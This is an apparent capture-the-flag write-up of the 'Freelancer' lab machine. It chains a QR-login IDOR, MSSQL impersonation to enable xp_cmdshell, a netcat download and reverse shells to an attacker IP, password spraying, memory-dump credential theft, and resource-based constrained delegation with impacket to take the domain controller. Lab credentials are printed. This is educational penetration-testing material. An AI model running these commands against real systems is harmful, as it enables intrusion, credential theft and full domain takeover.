

# Freelancer

<figure><figcaption></figcaption></figure>

## Enumeration

```bash
nmap -v -A -O -p- -Pn freelancer.htb -oN nmap
```

```bash
Nmap scan report for freelancer.htb (10.10.11.5)
Host is up (0.045s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          nginx 1.25.5
|_http-server-header: nginx/1.25.5
|_http-favicon: Unknown favicon MD5: 582290CAF5F37817946D9C6A04D4AF95
|_http-title: Freelancer - Job Board & Hiring platform
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-06-10 14:07:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: freelancer.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49671/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
63527/tcp open  unknown
63531/tcp open  unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=261 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h59m59s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-06-10T14:08:34
|_  start_date: N/A

TRACEROUTE (using port 135/tcp)
HOP RTT      ADDRESS
1   44.36 ms 10.10.14.1
2   44.32 ms freelancer.htb (10.10.11.5)

NSE: Script Post-scanning.
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
Initiating NSE at 11:09
Completed NSE at 11:09, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 220.34 seconds
           Raw packets sent: 131218 (5.777MB) | Rcvd: 240 (18.132KB)

```

### Port 80

We find a very feature-rich website and pages to visit:

<figure><figcaption></figcaption></figure>

#### Blog

The Blog have different posts with comments of other users:

<figure><figcaption></figcaption></figure>

There is the endpoint [http://freelancer.htb/accounts/profile/visit/0/](http://freelancer.htb/accounts/profile/visit/0/) that allow to list all users registered in the platform. For example, admin have the `id=2` as showed below:

<figure><figcaption></figcaption></figure>

Using BurpSuite we can extract the list of usernames simply using the `Grep Extract` functionality and selecting the example text JohntheCarter:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

And this is the users list:

<figure><figcaption></figcaption></figure>

We note that some users are registered with corporate email so they may be interesting target users:

<figure><figcaption></figcaption></figure>

#### Employer Register

Note this message informing us that our requests will be reviewed by their team before approving the registration (possible XSS to steal the administrative cookie?):

<figure><figcaption></figcaption></figure>

If we try to log in after registration we get the error that the account needs to be activated by administrators:

<figure><figcaption></figcaption></figure>

However, by trying to take advantage of the Password Reset feature:

<figure><figcaption></figcaption></figure>

we are able to make the account fully active and login:

<figure><figcaption></figcaption></figure>

## Exploitation (admin panel)

There is a Login using QR code functionality that seems interesting:

<figure><figcaption></figcaption></figure>

If we scan using [zbarimg](https://linux.die.net/man/1/zbarimg) the QR code saved as PNG image, we obtain the following output:

<figure><figcaption></figcaption></figure>

Using CyberChef and Magic function, we will find that's is a Base64 string encoded. The first part of the string refers to the unique ID of the currently logged in user:

<figure><figcaption></figcaption></figure>

In fact this same ID is easily visualized by going to upload a test image as a profile image and looking in the HTML code after updating the “Profile” page we will have the ID associated with our user:

<figure><figcaption></figcaption></figure>

From the enumeration of users done earlier, we know that the admin has `ID=2` so we need to encode it using Base64 and substitute it in place of the user ID we created. Be careful to keep an equal as indicated by CyberChef's output:

<figure><figcaption></figcaption></figure>

We generate a new QR code as a Test employer since the deadline is 5 minutes and simply navigating in the browser the following crafted URL we can exploit successfully the [IDOR](https://portswigger.net/web-security/access-control/idor) vulnerability:

<figure><figcaption></figcaption></figure>

```
http://freelancer.htb/accounts/login/otp/Mg==/1cad99ebc4470912f121e5880f76978d/
```

And tada! We obtain admin access! :tada:

<figure><figcaption></figcaption></figure>

Seems to be a Django app written in Python:

<figure><figcaption></figcaption></figure>

Knowing that this is a Django application, we know that, if configured, there is an administrative console reachable at the /admin endpoint:


The administration console of a Django application is a predefined web interface that allows administrators to manage the data of applications registered in the site. It is created if the django.contrib.admin app has been included in the `settings.py` file under `INSTALLED_APPS` and `python manage.py migrate` has been run to create the administration tables in the database.


<figure><figcaption></figcaption></figure>

We can see the different existing users, published articles and comments but there is also a super interesting <mark style="color:orange;">**SQL Terminal**</mark>!

If we try to run the SQL command `show databases;` the error gives us useful information about the backend in use:

<figure><figcaption></figcaption></figure>

```
[Microsoft][ODBC Driver 17 for SQL Server][SQL Server]
```

This is SQL Server so we need to use the appropriate stored procedure:

<figure><figcaption></figcaption></figure>

List schemas:

```sql
SELECT schema_name FROM information_schema.schemata;
```

<figure><figcaption></figcaption></figure>

Get the version:

```
SELECT @@VERSION;
```

<figure><figcaption></figcaption></figure>

The current database in use is the following:

```sql
SELECT DB_NAME() AS CurrentDatabase;
```

<figure><figcaption></figcaption></figure>

Obtain the current user running the SQL Express instance:

```sql
select user_name();
```

<figure><figcaption></figcaption></figure>

If we try to run shell command using stored procedure `xp_cmdshell` we obtain a permission error:

<figure><figcaption></figcaption></figure>

Also we can't enable it so:

<figure><figcaption></figcaption></figure>

So we have to go a different way.... :motorway:

### MSSQL Impersonation

The `EXECUTE AS` statement is a feature within SQL servers that allows a user to impersonate and execute commands as another SQL Server login or database user. This allows database admins to delegate permissions to other users to execute certain stored procedures without necessarily giving them the sysadmin role.

Find SQL Server Logins that can be impersonated:

<figure><figcaption></figcaption></figure>

Impersonate sysadmin user:

<figure><figcaption></figcaption></figure>

Now we are SYSADMIN user `sa` :tada:

<figure><figcaption></figcaption></figure>

As syadmin user we can now enable `xp_cmdshell`:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC('sp_configure "show advanced options", 1; reconfigure;')
EXEC('sp_configure "xp_cmdshell", 1; reconfigure;')
REVERT
```

<figure><figcaption></figcaption></figure>

Now that we are executing command as sa, we try to exec `xp_cmdshell` stored procedure and it works like a charm!

<figure><figcaption></figcaption></figure>

We've obtained another info: the service account that run the MSSQL is `sql_svc`.


Go futher with enumeration:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell "dir C:\Users\Public\Downloads";
REVERT
```


<figure><figcaption></figcaption></figure>

```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell 'type "C:\nginx\sites-enabled\freelancer.conf"';
REVERT
```

<figure><figcaption></figcaption></figure>

The very interesting file is under `C:\Users\sql_svc\DOwnloads\SQLEXPR-2019_x64_ENU`:

```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell 'dir "C:\Users\sql_svc\DOwnloads\SQLEXPR-2019_x64_ENU"'
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

`FREELANCER\sql_svc` <--> `IL0v3ErenY3ager`

If we try to evil-winrm we got a fail:

<figure><figcaption></figcaption></figure>

Now to obtain a reverse shell as `sql_svc`, dowload netcat on victim machine:


```sql
EXECUTE AS LOGIN = 'sa';
EXEC xp_cmdshell "powershell.exe wget http://10.10.16.34:8888/nc.exe -OutFile C:\Users\Public\Downloads\nc.exe"
REVERT
```


<figure><figcaption></figcaption></figure>

Now run `rlwrap nc -lnvp 4444` on Kali and spawn a reverse shell as sql\_svc:

<figure><figcaption></figcaption></figure>

If now we run a Password spray attack using crackmapexec against SMB service we obtain this result:


```bash
crackmapexec smb -u local_users.txt -p "IL0v3ErenY3ager" -d freelancer.htb freelancer.htb
```


<figure><figcaption></figcaption></figure>

`freelancer.htb\mikasaAckerman`<-->`IL0v3ErenY3ager`

The WinRM for these users is disabled, so we need to change user in reverse shell using `runascs.exe`:


```powershell
.\runascs.exe -d freelancer.htb mikasaAckerman IL0v3ErenY3ager 'C:\temp\nc.exe 10.10.16.34 5555 -e powershell.exe'
```


Running `rlwrap nc -lnvp 5555` on another tab allow us to login as mikasaAckerman and got the user flag:

<figure><figcaption></figcaption></figure>

## Privilege Escalation (lorra199)

There are strange files like mail.txt and test.txt:

<figure><figcaption></figcaption></figure>

The creator of the CTF is telling us that we need to analyze the dump of the server.... machine and so be it!

We download the MEMORY.7z dump locally using python as web server:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

We need to analyze this dump in order to find juicy infos...

First extract the 7z archive using `7za`:

```bash
7za x MEMORY.7z
```

<figure><figcaption></figcaption></figure>

Mount the dump using memprocfs:

<figure><figcaption></figcaption></figure>


<figure><figcaption></figcaption></figure>

We can see the list of process that were running when the dump was made:

<figure><figcaption></figcaption></figure>

also the list of sockets:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

The password obtained from the dump is: `PWN3D#l0rr@Armessa199`

We need to find the username for which this password works, so again password spray attacks using crackmapexec:


```bash
crackmapexec smb -u local_users.txt -p "PWN3D#l0rr@Armessa199" -d freelancer.htb freelancer.htb
```


We find that these credentials are for user lorra199:

<figure><figcaption></figcaption></figure>

If we try to WinRM, we are in as lorra199:

```bash
evil-winrm -i freelancer.htb -u lorra199 -p 'PWN3D#l0rr@Armessa199'
```

<figure><figcaption></figcaption></figure>

## Privilege Escalation (Administrator)

If we try to download WinPeas on the machine, we will obtain this error during execution, blocked by antivirus:

<figure><figcaption></figcaption></figure>


The following screenshots are from Powershell in Windows machine because I was having stability problems with evil-winrm


```
 $Target="freelancer.htb"
 $Sess=New-PSSession -ComputerName $Target -Credential
 Enter-PSSession $Sess
```

<figure><figcaption></figcaption></figure>

List just for confirmation the AD users:


```powershell
Import-Module ActiveDirectory; Get-ADUser -Filter * | Select-Object Name, SamAccountName
```


<figure><figcaption></figcaption></figure>

We need to enumerate more, so run BloodHound. But first to avoid the error <mark style="color:yellow;">**`Kerberos SessionError: KRB_AP_ERR_SKEW (Clock skew too great)`**</mark> we need to syncronize the local time of Kali with the DC:

```
ntpdate freelancer.htb
```

From Bloodhound, after collection and importing, we mark user lorra199 as owned and then from Analysis menu we will select "Shortest Path from Owned Principals" and we will see that lorra199 is member of `AD RECYCLE BIN` group.

<figure><figcaption></figcaption></figure>

The <mark style="color:yellow;">**Active Directory Recycle Bi**</mark>**n** is used to recover deleted Active Directory objects such as Users, Groups, OUs etc. The objects keep all their properties intact while in the AD Recycle Bin, which allows them to be restored at any point.

First import the Active Directory module:

```powershell
Import-Module ActiveDirectory
```


```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects
```


<figure><figcaption></figcaption></figure>

This is the output formatted using this one-line Posh code:


```powershell
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : freelancer.htb/Deleted Objects/Emily Johnson
                                  DEL:0c78ea5f-c198-48da-b5fa-b8554a02f3b6
CN                              : Emily Johnson
                                  DEL:0c78ea5f-c198-48da-b5fa-b8554a02f3b6
codePage                        : 0
countryCode                     : 0
Created                         : 10/11/2023 9:35:12 PM
createTimeStamp                 : 10/11/2023 9:35:12 PM
Deleted                         : True
Description                     : Incident Responder
DisplayName                     :
DistinguishedName               : CN=Emily Johnson\0ADEL:0c78ea5f-c198-48da-b5fa-b8554a02f3b6,CN=Deleted Objects,DC=freelancer,DC=htb
dSCorePropagationData           : {10/12/2023 3:20:27 AM, 12/31/1600 7:00:00 PM}
givenName                       : Emily
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : CN=Users,DC=freelancer,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/2/2024 3:21:43 AM
modifyTimeStamp                 : 1/2/2024 3:21:43 AM
msDS-LastKnownRDN               : Emily Johnson
Name                            : Emily Johnson
                                  DEL:0c78ea5f-c198-48da-b5fa-b8554a02f3b6
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : 0c78ea5f-c198-48da-b5fa-b8554a02f3b6
objectSid                       : S-1-5-21-3542429192-2036945976-3483670807-1125
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133415481121389460
sAMAccountName                  : ejohnson
sDRightsEffective               : 0
sn                              : Johnson
userAccountControl              : 66048
userPrincipalName               : ejohnson@freelancer.htb
uSNChanged                      : 200873
uSNCreated                      : 192612
whenChanged                     : 1/2/2024 3:21:43 AM
whenCreated                     : 10/11/2023 9:35:12 PM


-------------------------------
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : freelancer.htb/Deleted Objects/James Moore
                                  DEL:8194e0a3-b636-4dba-91de-317dfe34f5b5
CN                              : James Moore
                                  DEL:8194e0a3-b636-4dba-91de-317dfe34f5b5
codePage                        : 0
countryCode                     : 0
Created                         : 10/11/2023 11:05:56 PM
createTimeStamp                 : 10/11/2023 11:05:56 PM
Deleted                         : True
Description                     : WSGI Manager
DisplayName                     :
DistinguishedName               : CN=James Moore\0ADEL:8194e0a3-b636-4dba-91de-317dfe34f5b5,CN=Deleted Objects,DC=freelancer,DC=htb
dSCorePropagationData           : {11/2/2023 1:13:01 AM, 12/31/1600 7:00:00 PM}
givenName                       : James
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : CN=Users,DC=freelancer,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/22/2024 2:34:44 AM
modifyTimeStamp                 : 1/22/2024 2:34:44 AM
msDS-LastKnownRDN               : James Moore
Name                            : James Moore
                                  DEL:8194e0a3-b636-4dba-91de-317dfe34f5b5
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : 8194e0a3-b636-4dba-91de-317dfe34f5b5
objectSid                       : S-1-5-21-3542429192-2036945976-3483670807-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133415535561235386
sAMAccountName                  : jmoore
sDRightsEffective               : 0
sn                              : Moore
userAccountControl              : 66048
userPrincipalName               : jmoore@freelancer.htb
uSNChanged                      : 200762
uSNCreated                      : 192706
whenChanged                     : 1/22/2024 2:34:44 AM
whenCreated                     : 10/11/2023 11:05:56 PM


-------------------------------
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : freelancer.htb/Deleted Objects/Abigail Morris
                                  DEL:80104541-085f-4686-b0a2-26a0cbd7c23c
CN                              : Abigail Morris
                                  DEL:80104541-085f-4686-b0a2-26a0cbd7c23c
codePage                        : 0
countryCode                     : 0
Created                         : 10/11/2023 11:44:50 PM
createTimeStamp                 : 10/11/2023 11:44:50 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=Abigail Morris\0ADEL:80104541-085f-4686-b0a2-26a0cbd7c23c,CN=Deleted Objects,DC=freelancer,DC=htb
dSCorePropagationData           : {11/2/2023 1:13:01 AM, 12/31/1600 7:00:00 PM}
givenName                       : Abigail
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : CN=Users,DC=freelancer,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/2/2024 3:22:47 AM
modifyTimeStamp                 : 1/2/2024 3:22:47 AM
msDS-LastKnownRDN               : Abigail Morris
Name                            : Abigail Morris
                                  DEL:80104541-085f-4686-b0a2-26a0cbd7c23c
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : 80104541-085f-4686-b0a2-26a0cbd7c23c
objectSid                       : S-1-5-21-3542429192-2036945976-3483670807-1147
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133415558908762212
sAMAccountName                  : abigail.morris
sDRightsEffective               : 0
sn                              : Morris
userAccountControl              : 66048
userPrincipalName               : abigail.morris@freelancer.htb
uSNChanged                      : 200875
uSNCreated                      : 192809
whenChanged                     : 1/2/2024 3:22:47 AM
whenCreated                     : 10/11/2023 11:44:50 PM


-------------------------------
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : freelancer.htb/Deleted Objects/Noah Baker
                                  DEL:d955e3c2-6ff5-4b66-8971-2caa60ea72c7
CN                              : Noah Baker
                                  DEL:d955e3c2-6ff5-4b66-8971-2caa60ea72c7
codePage                        : 0
countryCode                     : 0
Created                         : 10/12/2023 12:03:14 AM
createTimeStamp                 : 10/12/2023 12:03:14 AM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=Noah Baker\0ADEL:d955e3c2-6ff5-4b66-8971-2caa60ea72c7,CN=Deleted Objects,DC=freelancer,DC=htb
dSCorePropagationData           : {10/12/2023 3:20:30 AM, 12/31/1600 7:00:00 PM}
givenName                       : Noah
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : CN=Users,DC=freelancer,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 12/20/2023 3:21:13 AM
modifyTimeStamp                 : 12/20/2023 3:21:13 AM
msDS-LastKnownRDN               : Noah Baker
Name                            : Noah Baker
                                  DEL:d955e3c2-6ff5-4b66-8971-2caa60ea72c7
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : d955e3c2-6ff5-4b66-8971-2caa60ea72c7
objectSid                       : S-1-5-21-3542429192-2036945976-3483670807-1148
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133415569941760163
sAMAccountName                  : noah.baker
sDRightsEffective               : 0
sn                              : Baker
userAccountControl              : 66048
userPrincipalName               : noah.baker@freelancer.htb
uSNChanged                      : 200871
uSNCreated                      : 192816
whenChanged                     : 12/20/2023 3:21:13 AM
whenCreated                     : 10/12/2023 12:03:14 AM


-------------------------------
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : freelancer.htb/Deleted Objects/tony stark
                                  DEL:e7027ba5-1921-488f-b4d8-58d7dac4aca9
CN                              : tony stark
                                  DEL:e7027ba5-1921-488f-b4d8-58d7dac4aca9
codePage                        : 0
countryCode                     : 0
Created                         : 10/11/2023 4:16:55 AM
createTimeStamp                 : 10/11/2023 4:16:55 AM
Deleted                         : True
Description                     : Active Directory Engineer & IT Support
DisplayName                     :
DistinguishedName               : CN=tony stark\0ADEL:e7027ba5-1921-488f-b4d8-58d7dac4aca9,CN=Deleted Objects,DC=freelancer,DC=htb
dSCorePropagationData           : {12/31/1600 7:00:00 PM}
givenName                       : tony
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : CN=Users,DC=freelancer,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 2/1/2024 4:18:56 AM
modifyTimeStamp                 : 2/1/2024 4:18:56 AM
msDS-LastKnownRDN               : tony stark
Name                            : tony stark
                                  DEL:e7027ba5-1921-488f-b4d8-58d7dac4aca9
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : e7027ba5-1921-488f-b4d8-58d7dac4aca9
objectSid                       : S-1-5-21-3542429192-2036945976-3483670807-1163
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133414858160219605
sAMAccountName                  : sstark
sDRightsEffective               : 0
sn                              : stark
userAccountControl              : 66048
userPrincipalName               : sstark@freelancer.htb
uSNChanged                      : 200937
uSNCreated                      : 200921
whenChanged                     : 2/1/2024 4:18:56 AM
whenCreated                     : 10/11/2023 4:16:55 AM


-------------------------------
accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : freelancer.htb/Deleted Objects/Liza Kazanof
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
CN                              : Liza Kazanof
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
codePage                        : 0
countryCode                     : 0
Created                         : 5/14/2024 6:37:29 PM
createTimeStamp                 : 5/14/2024 6:37:29 PM
Deleted                         : True
Description                     :
DisplayName                     :
DistinguishedName               : CN=Liza Kazanof\0ADEL:ebe15df5-e265-45ec-b7fc-359877217138,CN=Deleted Objects,DC=freelancer,DC=htb
dSCorePropagationData           : {12/31/1600 7:00:00 PM}
givenName                       : Liza
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : CN=Users,DC=freelancer,DC=htb
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
mail                            : liza.kazanof@freelancer.htb
Modified                        : 5/14/2024 6:41:44 PM
modifyTimeStamp                 : 5/14/2024 6:41:44 PM
msDS-LastKnownRDN               : Liza Kazanof
Name                            : Liza Kazanof
                                  DEL:ebe15df5-e265-45ec-b7fc-359877217138
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : ebe15df5-e265-45ec-b7fc-359877217138
objectSid                       : S-1-5-21-3542429192-2036945976-3483670807-2101
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 133601998496583593
sAMAccountName                  : liza.kazanof
sDRightsEffective               : 0
sn                              : Kazanof
userAccountControl              : 512
userPrincipalName               : liza.kazanof@freelancer.com
uSNChanged                      : 544913
uSNCreated                      : 540822
whenChanged                     : 5/14/2024 6:41:44 PM
whenCreated                     : 5/14/2024 6:37:29 PM


-------------------------------

```


If we also mark AD Recycle Bin as Owned and then we ask Bloodhound to show us the shortest path to Administrator user, we will obtain this kill chain:

<figure><figcaption></figcaption></figure>

AD RECYCLE BIN has <mark style="color:orange;">**GenericWrite**</mark> permissions on the DC machine.

Create a machine account using Powermad:


```powershell
New-MachineAccount -MachineAccount hackmachine -Password $(ConvertTo-SecureString 'Password#' -AsPlainText -Force) 
```


<figure><figcaption></figcaption></figure>

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the computer account we’re taking over, again using PowerView in this case:


```powershell
Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{‘msds-allowedtoactonbehalfofotheridentity’=$SDBytes} 
```


First create a new machine (grab the computer name and password output):


```bash
impacket-addcomputer freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199' -dc-ip 10.10.11.5
```


Then delegate the newly created machine to the DC, allowing the delegated machine to impersonate any user to operate the target machine under certain conditions.


```bash
impacket-rbcd -delegate-from 'DESKTOP-68XXCRS9$' -delegate-to 'dc$' -dc-ip 10.10.11.5 -action write freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
```


<figure><figcaption></figcaption></figure>

Then obtain the ticket, which is the ticket of the new machine:


```bash
impacket-getST -spn 'cifs/dc.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 freelancer.htb/DESKTOP-OOIWDGCC$:'yd9fvtGwz78TUoIdcsVKgbjqNNvbRACH.'
```


<figure><figcaption></figcaption></figure>

Finally import the ticket and log in to the DC directly using the `wmiexec` tool and rooting the machine :tada::tada:


```bash
KRB5CCNAME="Administrator@cifs_dc.freelancer.htb@FREELANCER.HTB.ccache" wmiexec.py -no-pass -k freelancer.htb/administrator@dc.freelancer.htb
```


<figure><figcaption></figcaption></figure>

